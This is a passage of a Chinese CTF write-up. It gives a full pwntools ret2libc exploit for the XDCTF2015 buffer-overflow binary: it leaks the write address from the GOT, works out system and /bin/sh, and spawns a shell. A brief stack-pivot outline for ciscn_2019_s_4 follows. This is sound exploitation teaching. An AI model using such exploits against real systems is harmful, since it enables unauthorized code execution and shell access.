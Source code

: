 非常常规的泄露`libc`,直接上代码

```python
from pwn import *
elf = ELF('./bof')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
io = process('./bof')
padding = b'A'*112
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload1)

write_addr = u32(io.recv(4))
print('puts_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))

payload2 = padding + p32(sys_addr)+p32(0x0)+p32(bin_sh_addr)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload2)
io.interactive()
```

# ciscn_2019_s_4

- 栈迁移

![image-20240117144616542](../assets/img/old_imgs/image-20240117144616542.png)

1. 存在漏洞函数,`s`变量存在溢出,但是长度不够,考虑栈迁移
2. 通过溢出打印(动态调试也可以)`ebp`栈上地址,计算得出`s`的地址,栈迁移到`s`的位置上
3. 向`s`中写入`payload`得到`shell`
